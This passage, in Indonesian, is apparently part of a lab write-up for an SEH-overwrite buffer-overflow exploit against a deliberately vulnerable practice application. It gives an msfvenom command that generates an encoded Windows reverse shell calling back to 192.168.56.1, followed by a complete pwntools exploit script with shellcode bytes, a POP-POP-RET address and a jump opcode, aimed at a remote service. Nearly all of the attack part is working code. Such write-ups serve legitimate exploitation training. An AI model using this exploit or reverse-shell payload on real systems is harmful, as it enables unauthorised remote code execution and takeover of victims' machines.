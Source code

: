 Kita dapatkan opcode nya yaitu `EB 0D`. INT3 yang lain dapat diganti dengan NOP sehingga opcode 4 bit menjadi `jfront = 0x90900deb` dan kita perlu meletakkan setidaknya 6 bit NOP sebelum shellcode agar shellcode tereksekusi sempurna.

### Shellcode + Pwn

Generate shellcode menggunakan msfvenom `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.1 LPORT=9876 -b '\x00' -e x86/shikata_ga_nai -f python` lalu buat script exploit final.

```python
#!/usr/local/bin/python
#dvca_sehexploit.py

from pwn import *

def terima(p):
 data = p.recv(1024)
 log.info("recv: " + data)
def kirim(p, payload):
 p.sendline(payload)
 log.info("send: "+ payload)

buf =  ""
buf += "\xb8\x46\x74\x2a\x7f\xd9\xd0\xd9\x74\x24\xf4\x5e\x33"
buf += "\xc9\xb1\x52\x31\x46\x12\x03\x46\x12\x83\x80\x70\xc8"
buf += "\x8a\xf0\x91\x8e\x75\x08\x62\xef\xfc\xed\x53\x2f\x9a"
buf += "\x66\xc3\x9f\xe8\x2a\xe8\x54\xbc\xde\x7b\x18\x69\xd1"
buf += "\xcc\x97\x4f\xdc\xcd\x84\xac\x7f\x4e\xd7\xe0\x5f\x6f"
buf += "\x18\xf5\x9e\xa8\x45\xf4\xf2\x61\x01\xab\xe2\x06\x5f"
buf += "\x70\x89\x55\x71\xf0\x6e\x2d\x70\xd1\x21\x25\x2b\xf1"
buf += "\xc0\xea\x47\xb8\xda\xef\x62\x72\x51\xdb\x19\x85\xb3"
buf += "\x15\xe1\x2a\xfa\x99\x10\x32\x3b\x1d\xcb\x41\x35\x5d"
buf += "\x76\x52\x82\x1f\xac\xd7\x10\x87\x27\x4f\xfc\x39\xeb"
buf += "\x16\x77\x35\x40\x5c\xdf\x5a\x57\xb1\x54\x66\xdc\x34"
buf += "\xba\xee\xa6\x12\x1e\xaa\x7d\x3a\x07\x16\xd3\x43\x57"
buf += "\xf9\x8c\xe1\x1c\x14\xd8\x9b\x7f\x71\x2d\x96\x7f\x81"
buf += "\x39\xa1\x0c\xb3\xe6\x19\x9a\xff\x6f\x84\x5d\xff\x45"
buf += "\x70\xf1\xfe\x65\x81\xd8\xc4\x32\xd1\x72\xec\x3a\xba"
buf += "\x82\x11\xef\x6d\xd2\xbd\x40\xce\x82\x7d\x31\xa6\xc8"
buf += "\x71\x6e\xd6\xf3\x5b\x07\x7d\x0e\x0c\xe8\x2a\x28\xcd"
buf += "\x80\x28\x48\xeb\xc4\xa4\xae\x99\xf4\xe0\x79\x36\x6c"
buf += "\xa9\xf1\xa7\x71\x67\x7c\xe7\xfa\x84\x81\xa6\x0a\xe0"
buf += "\x91\x5f\xfb\xbf\xcb\xf6\x04\x6a\x63\x94\x97\xf1\x73"
buf += "\xd3\x8b\xad\x24\xb4\x7a\xa4\xa0\x28\x24\x1e\xd6\xb0"
buf += "\xb0\x59\x52\x6f\x01\x67\x5b\xe2\x3d\x43\x4b\x3a\xbd"
buf += "\xcf\x3f\x92\xe8\x99\xe9\x54\x43\x68\x43\x0f\x38\x22"
buf += "\x03\xd6\x72\xf5\x55\xd7\x5e\x83\xb9\x66\x37\xd2\xc6"
buf += "\x47\xdf\xd2\xbf\xb5\x7f\x1c\x6a\x7e\x8f\x57\x36\xd7"
buf += "\x18\x3e\xa3\x65\x45\xc1\x1e\xa9\x70\x42\xaa\x52\x87"
buf += "\x5a\xdf\x57\xc3\xdc\x0c\x2a\x5c\x89\x32\x99\x5d\x98"

shellcode = buf
ppr = 0x19196530
jfront = 0x90900deb
nop = "\x90"*10

evil = "A"*1104 + p32(jfront) + p32(ppr) + nop + shellcode
p = remote('192.168.56.103', 31332)
terima(p)
kirim(p, evil)
```
